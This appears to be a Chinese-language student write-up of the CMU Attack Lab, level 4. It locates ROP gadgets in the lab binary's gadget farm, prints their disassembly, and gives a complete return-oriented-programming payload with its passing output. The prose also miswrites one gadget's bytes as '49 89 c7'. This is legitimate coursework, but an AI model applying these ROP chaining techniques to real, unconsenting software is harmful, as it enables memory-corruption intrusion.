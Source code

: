 由于DI攻击方式太过常见，所以很多程序都自带针对DI的防御手段，比如栈随机化、栈破坏检测（通过金丝雀值）和限制可执行代码区域。但显然它们也不能做到尽善尽美，level4和level5就要求我们在以上限制下重新完成touch2和touch3的骇入。

现在我们重新梳理touch2，不难发现其实我们真正需要的操作是让寄存器edi获得0x59b997fa。由于当前的限制条件，我们只能将其写在栈上再通过pop读出，且这个pop操作只能通过lab给出的“工具代码段”也就是start_farm到end_farm这一部分得到。

首先，参考实验说明的附录表格，我们知道pop操作是0x58~0x5f，于是去farm中寻找，发现只有58和5c，分别对应popq rax和popq rsp，这里再次说明q后缀是64位，l后缀是32位。了解二者含义都知道，我们只有一个选项那就是popq rax，也就是说我们存储的0x59b997fa会被送到rax。

这里我们取addval，0x4019a7+4=0x4019ab：

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 [58] 90   lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 [58] 92   movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq
```

那么我们现在是希望该字段被送到edi或者rdi，通过查找movl和movq表，再对照farm内容，我们找到了三条数据，由于包含”49 89 c7”对应“movq rax, rdi”，所以就不用再去找中转了（与之相对的，level5需要）。

对比这三条，我选择了addval，因为后面直接跟着c3，对应汇编中的“retq”，取0x4019a0+2，即0x4019a2：

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 [48 89 c7] c3   lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq

00000000004019ae <setval_237>:
  4019ae:	c7 07 [48 89 c7] c7   movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq

00000000004019c3 <setval_426>:
  4019c3:	c7 07 [48 89 c7] 90   movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq
```

最后，成功构造出指定输入，我用的塔式结构，也比较清晰易懂：）

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40个空白字符 */
ab 19 40 00 00 00 00 00 /* 弹出目标数据给rax */
fa 97 b9 59 00 00 00 00 /* 目标数据 */
a2 19 40 00 00 00 00 00 /* rax传给rdi */
ec 17 40 00 00 00 00 00 /* touch2入口 */
```

```
[root@MiWiFi-R4A-srv target1]# ./hex2raw < rtarget.l4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
